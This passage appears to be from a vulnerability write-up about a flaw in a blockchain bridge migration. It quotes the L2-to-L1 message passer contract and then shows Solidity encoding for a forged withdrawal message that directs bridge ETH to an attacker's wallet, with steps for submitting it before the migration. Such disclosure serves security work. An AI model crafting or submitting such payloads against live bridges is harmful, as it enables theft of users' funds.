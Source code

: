 ```solidity
19:     mapping(bytes32 => bool) public sentMessages;
20: 
21:     /********************
22:      * Public Functions *
23:      ********************/
24: 
25:     /**
26:      * @inheritdoc iOVM_L2ToL1MessagePasser
27:      */
28:     // slither-disable-next-line external-function
29:     function passMessageToL1(bytes memory _message) public {
30:         // Note: although this function is public, only messages sent from the
31:         // L2CrossDomainMessenger will be relayed by the L1CrossDomainMessenger.
32:         // This is enforced by a check in L1CrossDomainMessenger._verifyStorageProof().
33:         sentMessages[keccak256(abi.encodePacked(_message, msg.sender))] = true;
34:     }
35: }
```

#### Section 6 - Crafting Malicious Payload

Assume that the following data will be the payload passes to the `OVM_L2ToL1MessagePasser.passMessageToL1` function.

```solidity
abi.encodeWithSignature(
    "relayMessage(address,address,bytes,uint256)",
    _target,
    _sender,
    _message,
    _messageNonce
);
```

The `_target` is set to `L1Bridge` address and the `_sender` is set to `L2Bridge` address. The `_message` will be set to as follows:

```solidity
abi.encodeWithSelector(
    this.finalizeBridgeETH.selector,
    _from,
    _to,
    _amount,
    _extraData
),
```

The `_to` is set to the attacker's wallet and `_amount` is set to a sufficiently large ETH amount that the L1 bridge is expected to hold.

#### Section 7 - Exploitation

Right before the migration start, the attacker can submit the malicious payload in the previous section to the `OVM_L2ToL1MessagePasser.passMessageToL1` function. When the migration starts, the attacker's legacy withdrawal will be migrated to the bedrock-style withdrawal, and the sender and target of the malicious withdrawal will be set to `&predeploys.L2CrossDomainMessengerAddr` and `l1CrossDomainMessenger` respectively.
